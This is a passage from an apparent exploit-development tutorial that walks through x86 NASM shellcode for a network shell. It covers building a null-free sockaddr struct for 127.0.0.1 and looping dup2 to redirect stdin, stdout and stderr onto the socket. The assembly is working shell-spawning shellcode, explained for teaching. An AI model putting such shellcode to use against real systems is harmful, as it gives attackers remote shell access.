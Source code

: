 ```nasm
    mov ecx, 0x02010180
    sub ecx, 0x01010101
```

Now we push ECX onto the stack and continue on as we did in Assignment #1 for pretty much the rest of our assembly code. 

```nasm
    push ecx
    push word 0xb315
    push word 0x02
```

Boom! Struct completed. Let's put the pointer to this entity into the ECX register so that we can satisfy our `const struct sockaddr *addr` argument. We'll also put 16 into the low part of the EDX register and call the interrupt again while we're here since that's easy enough. 

```nasm 
    mov ecx, esp
    mov dl, 16
    int 0x80
```

## Dup2 Syscall 

If we reference our C prototype, we see that the dup2 call is iterating 3 times in order to duplicate into our accepted connection the STDIN (0), STDOUT (1), and STDERR (2) file descriptors which makes the connection interactive for the user. `cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2` gives a syscall code of 63 (`0x3f`). 

Since we're iterating through this call 3 times, we'll need to set up a loop. We can utilize ECX for this as it's known as the 'counter register.' We'll place a value of 3 into the lower part of ECX and have our loop iterate as long as the zero flag is not set with a `jnz` op code. So as long as the zero flag is not set, which is to say that ECX hasn't been decremented to zero, our code will jump back up to the beginning of the loop and execute it again. 

All that dup2 requires for an argument is the `int sockfd` which was newly created in our accept syscall and stored in EDI. 

```nasm
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    
    mov cl, 0x3     ; putting 3 in the counter
    
    loop_dup2:      
    xor eax, eax   
    mov al, 0x3f    ; putting the syscall code into the lower part of eax
    mov ebx, edi    
    dec cl          ; decrementing cl by one
    int 0x80
    
    jnz loop_dup2   ; jumping back to the top of loop_dup2 if the zero flag is not set
```

